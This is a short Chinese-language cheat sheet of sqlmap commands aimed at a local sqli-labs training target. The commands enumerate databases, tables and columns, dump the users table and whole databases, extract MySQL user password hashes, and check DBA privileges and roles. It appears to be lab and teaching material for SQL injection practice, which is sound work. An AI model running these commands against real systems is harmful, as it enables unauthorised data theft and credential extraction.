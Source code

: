 命令：sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --columns   

\#爆出数据库中所有的列

命令：sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --current-db 

\#查看当前的数据库

命令：sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" -D security --tables  

\#爆出数据库security中的所有的表

命令：sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" -D security -T users --columns  

\#爆出security数据库中users表中的所有的列

命令：sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" -D security -T users -C username --dump   

\#爆出数据库security中的users表中的username列中的所有数据

命令：sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" -D security -T users -C username --dump --start 1 --stop 100   

\#爆出数据库security中的users表中的username列中的前100条数据

sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" -D security -T users --dump-all 

\#爆出数据库security中的users表中的所有数据

sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" -D security --dump-all 

\#爆出数据库security中的所有数据

sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --dump-all  

\#爆出该数据库中的所有数据

sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --users    

\#查看数据库的所有用户

sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --passwords  

\#查看数据库用户名的密码

有时候使用 --passwords 不能获取到密码，则可以试下

-D mysql -T user -C host,user,password --dump  

当MySQL< 5.7时

-D mysql -T user -C host,user,authentication_string --dump  

当MySQL>= 5.7时

sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --current-user  

\#查看数据库当前的用户

sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --is-dba   

\#判断当前用户是否有管理员权限

sqlmap -u "http://192.168.10.150/sqlilabs/Less-1/?id=1" --roles   
